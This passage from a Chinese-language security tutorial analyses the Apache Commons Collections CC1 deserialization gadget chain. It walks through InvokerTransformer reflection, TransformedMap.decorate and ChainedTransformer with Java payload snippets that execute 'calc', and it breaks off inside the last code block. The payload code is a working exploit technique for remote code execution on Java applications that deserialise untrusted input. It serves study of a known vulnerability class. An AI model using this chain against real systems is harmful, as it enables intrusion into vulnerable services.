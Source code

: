 这里使用了反射调用，若 `iMethodName` , `iParamTypes` , `iArgs` 可控，则可以调用任意方法，并可传入任意参数

其构造器如下

![image-20250808151853546](https://mingzu.oss-cn-hongkong.aliyuncs.com/blog/20250808151853586.png)

调用一下试试看

```Java
new InvokerTransformer("exec", new Class[] {String.class}, new String[] {"calc"}).transform(Runtime.getRuntime());
```

## TransformedMap 利用链

### Analyze

这条链子里调用 `transform()` 方法的是 `org.apache.commons.collections.map.TransformedMap::checkSetValue()`

> `transformKey()` 和 `transformValue()` 方法也会调用，但是没有调用这两个方法的 `Serializable` 类

![image-20250808152902479](https://mingzu.oss-cn-hongkong.aliyuncs.com/blog/20250808152902521.png)

查看构造器可发现 `valueTransformer` 可控

![image-20250808153042296](https://mingzu.oss-cn-hongkong.aliyuncs.com/blog/20250808153042334.png)

但由于构造器有 `protected` 修饰，所以无法直接调用，故使用 `decorate` 方法间接调用

![image-20250808153301573](https://mingzu.oss-cn-hongkong.aliyuncs.com/blog/20250808153301607.png)

到这里已经可以外部控制 `valueTransformer` ，下面寻找哪里调用了 `checkSetValue()` 方法

在抽象类 `AbstractInputCheckedMapDecorator` 可以看到，`setValue()` 方法调用了 `checkSetValue()`

对此构造一个 payload 进行测试

```Java
InvokerTransformer invokerTransformer = new InvokerTransformer("exec", new Class[] {String.class}, new String[] {"calc"});

Map<Object, Object> innerMap = new HashMap<>();
innerMap.put("key", "mzzz");

Map<Object, Object> outerMap = TransformedMap.decorate(innerMap, null, invokerTransformer);

for (Map.Entry<Object, Object> e : outerMap.entrySet()) {
    e.setValue(Runtime.getRuntime());
}
```

成功弹出计算器，但是 `Runtime` 没有实现 `Serializable` 接口，无法直接在反序列化过程中调用 `Runtime.getRuntime()` ，因此利用 `ChainedTransformer` ，更改 payload 如下

```Java
Transformer[] transformers = new Transformer[] {
        new ConstantTransformer(Runtime.class),
        new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class}, new Object[] {"getRuntime", new Class[0]}),
        new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class}, new Object[] {null, new Object[0]}),
        new InvokerTransformer("exec", new Class[] {String.class}, new String[] {"calc"}),
};

Transformer transformerChain = new ChainedTransformer(transformers);
        
Map<Object, Object> innerMap = new HashMap<>();
innerMap.put("key", "mzzz");

```